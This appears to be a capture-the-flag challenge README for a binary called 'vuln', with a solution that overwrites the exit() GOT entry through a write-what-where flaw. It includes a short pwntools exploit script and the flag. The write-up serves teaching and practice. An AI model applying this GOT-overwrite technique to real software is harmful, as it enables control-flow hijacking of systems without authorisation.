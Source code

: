 # GameOfThrones

### 📄 Description

Can you write a decent finale for Game of Thrones and get the flag?

### ⚙ How to run
```bash
./vuln
```


### ⛔ Rules
- You cannot patch this binary.
- The challenge MUST BE SOLVED by providing appropriate inputs.
- Solutions that jump directly to the print flag function WILL NOT BE CONSIDERED.
- Do not modify the `flag.txt` file.


<details>
    <summary>
        <h2>🔑 Solution</h2>
    </summary>


The binary provides a trivial write-what-where so it would be a good idea to overwrite some entry in the GOT in order to get control of the program control flow.
A good candidate for the overwrite would be (as usual) the `exit()` function.
The function that gives us the flag is `show_true_ending()` but it's never called anywhere.
By overwriting the GOT entry for `exit()` we can call the required function and get the flag.

```python
from pwn import * 

context.binary = "./vuln"
e: ELF = context.binary  
p = process()
p.sendline(str(e.got["exit"]).encode("ascii"))
p.sendline(str(e.functions["show_true_ending"].address).encode("ascii"))
log.success(p.recvline_regex(rb"SPRITZ{.*}").decode("ascii"))
```

<h3> 🚩 Flag </h3>

```plain
SPRITZ{GoT_Hijacking_iS_FUn{flag}}
```
</details>
